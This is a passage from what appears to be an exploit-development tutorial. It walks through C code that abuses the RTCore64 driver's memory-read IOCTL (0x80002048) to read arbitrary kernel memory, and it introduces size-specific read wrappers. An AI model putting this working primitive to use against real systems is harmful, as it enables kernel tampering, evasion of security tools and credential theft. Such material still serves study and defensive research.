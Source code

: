 ```c
	if (hDevice) {
		CloseHandle(hDevice);
	}
}
```

Following that, we define the primitive functions for reading and writing. Let's start with the function for reading:  

```c
BOOL RTCoreReadMemory(ULONG_PTR Address, DWORD ValueSize, PDWORD Value) {
	// create the structure which will be passed to the driver in the input buffer
	RTC64_MEMORY_STRUCT memory_read;
	// initialize the structure to all zeroes
	ZeroMemory(&memory_read, sizeof(memory_read));

	// set the target address to read from
	memory_read.Address = Address;
	// set how much data to read
	memory_read.Size = ValueSize;
	
	// the offset is not used, so it will be zero

	if (!hDevice) {
		PRINT_ERROR(L"[-] Device not opened!\r\n");
		return FALSE;
	}

	// Send the IRP packet
	if (!DeviceIoControl(
			hDevice, 
			RTC64_IOCTL_MEMORY_READ, // the 0x80002048 IOCTL code
			&memory_read,            // pointer to input buffer
			sizeof(memory_read),     // size of input buffer
			&memory_read,            // output is recieved in the same buffer
			sizeof(memory_read), 
			NULL, 
			NULL)) 
		{
		PRINT_ERROR(L"[-] Memory Read IRP Failed!\r\n");
		return FALSE;
	}

	// The driver should've filled the Value in the structure with the data which was read
	*Value = memory_read.Value;

	return TRUE;
}
```
Now, let's define several wrapper functions that use the primitive function to read data of different sizes, such as byte, word, dword, qword, and pointer. We'll use RTCoreRead32 as the base for the other functions, making it easier to extract the relevant byte for functions like RTCoreRead8 by performing an AND operation:  
